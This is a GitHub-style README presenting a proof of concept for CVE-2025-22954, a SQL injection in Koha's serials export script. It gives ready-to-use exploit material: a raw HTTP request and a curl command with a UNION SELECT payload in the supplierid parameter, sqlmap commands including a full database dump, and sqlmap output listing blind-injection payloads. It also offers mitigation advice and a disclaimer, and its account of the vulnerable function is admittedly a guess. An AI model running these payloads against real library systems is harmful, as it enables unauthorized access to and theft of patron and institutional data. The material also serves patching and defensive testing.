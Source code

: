# Koha CVE-2025-22954: SQL Injection in lateissues-export.pl

## Overview

This repository contains a proof of concept for CVE-2025-22954, a critical severity (CVSS 10.0) SQL injection vulnerability in Koha before version 24.11.02. The vulnerability exists in the `GetLateOrMissingIssues` function in `C4/Serials.pm` which is called by the `/serials/lateissues-export.pl` script. The vulnerability can be exploited via the `supplierid` or `serialid` parameters.

| CVE ID | CVE-2025-22954 |
|--------|----------------|
| CVSS v3 | 10.0 (Critical) |
| EPSS Score | 0.03% (Top 5.26%) |
| Published | March 12, 2025 |
| Fixed in | Koha 24.11.02 |
| Bug Reference | [Koha Bug #38829](https://bugs.koha-community.org/bugzilla3/show_bug.cgi?id=38829) |
| Release Notes | [Koha 24.11.02 Release](https://koha-community.org/koha-24-11-02-released/) |

## Vulnerability Details

The vulnerability stems from insecure handling of user input in the `supplierid` and `serialid` parameters in the `lateissues-export.pl` script which is passed to the `GetLateOrMissingIssues` function in `C4/Serials.pm`. The function does not properly sanitize or parameterize these inputs before using them in SQL queries, allowing for SQL injection attacks.

### Affected Code

The vulnerable script (`lateissues-export.pl`) contains the following code:

```perl
my $supplierid = $query->param('supplierid');
my @serialids = $query->multi_param('serialid');

# ...

for my $serialid ( @serialids ) {
    my @missingissues = GetLateOrMissingIssues($supplierid, $serialid);
    # ...
    
    # update claim date to let one know they have looked at this missing item
    updateClaim($serialid);
}
```

The `GetLateOrMissingIssues` function in `C4/Serials.pm` likely contains vulnerable SQL query construction where the `$supplierid` and `$serialid` parameters are directly concatenated into SQL statements without proper parameterization.

## Proof of Concept

This proof of concept demonstrates how an authenticated user with access to the serials module can exploit this vulnerability to extract sensitive data from the Koha database or potentially gain unauthorized access to the underlying database system.

### Prerequisites

- A vulnerable Koha instance (pre 24.11.02)
- Access to the `lateissues-export.pl` script

### Exploitation Method

#### HTTP Request Method

The following raw HTTP request can be used to exploit the vulnerability:

```http
GET /cgi-bin/koha/serials/lateissues-export.pl?supplierid=1' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,user(),14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30 -- -&serialid=1&csv_profile=1 HTTP/1.1
Host: koha.example.com
User-Agent: Mozilla/5.0
Accept: text/html,application/xhtml+xml,application/xml
Connection: close
```

#### Using curl

```bash
curl -i -X GET "https://koha.example.com/cgi-bin/koha/serials/lateissues-export.pl?supplierid=1' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,user(),14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30 -- -&serialid=1&csv_profile=1" 
```

#### Using SQLMap

SQLMap can be used to automate the exploitation of this vulnerability. First, capture a request to the vulnerable endpoint with valid authentication cookies, then use SQLMap to exploit the injection point.

```bash
# Save a request with valid cookies to request.txt
sqlmap -r request.txt -p supplierid --dbms=mysql --level=5 --risk=3 
```

Example request.txt file:
```
GET /cgi-bin/koha/serials/lateissues-export.pl?supplierid=1&serialid=1&csv_profile=1 HTTP/1.1
Host: koha.example.com
User-Agent: Mozilla/5.0
Accept: text/html,application/xhtml+xml,application/xml
Connection: close
```

You can also exploit the vulnerability directly with SQLMap:

```bash
sqlmap -u "https://koha.example.com/cgi-bin/koha/serials/lateissues-export.pl?supplierid=1&serialid=1&csv_profile=1" \
  -p supplierid \
  --dbms=mysql \
  --dump
```

```
GET parameter 'supplierid' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 59 HTTP(s) requests:
---
Parameter: supplierid (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: supplierid=(SELECT (CASE WHEN (1285=1285) THEN 1 ELSE (SELECT 7101 UNION SELECT 6384) END))&serialid=5&serialid=7&csv_profile=1

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: supplierid=1 AND (SELECT 5817 FROM (SELECT(SLEEP(5)))eSKk)&serialid=5&serialid=7&csv_profile=1
---
[10:46:38] [INFO] the back-end DBMS is MySQL
[10:46:38] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
web server operating system: Linux Ubuntu 19.10 or 20.04 or 20.10 (focal or eoan)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[10:46:40] [WARNING] HTTP error codes detected during run:
```


## Impact

This vulnerability allows an authenticated attacker to:

1. Extract sensitive information from the database
2. Modify data in the database
3. Potentially execute arbitrary commands on the database server
4. Potentially gain access to the underlying operating system

## Mitigation

Update to Koha version 24.11.02 or later which includes a fix for this vulnerability.

If immediate updating is not possible, consider implementing the following temporary mitigations:

1. Restrict access to the `/serials/lateissues-export.pl` script to trusted IP addresses only
2. Implement a Web Application Firewall (WAF) rule to block potentially malicious requests to this endpoint
3. Modify the `C4/Serials.pm` file to properly parameterize SQL queries in the `GetLateOrMissingIssues` function

## Ethical Considerations

This proof of concept is provided for educational and defensive purposes only. Always obtain proper authorization before testing any system for vulnerabilities.

## Disclaimer

The author is not responsible for any misuse of this information. This proof of concept should only be used on systems you own or have explicit permission to test.
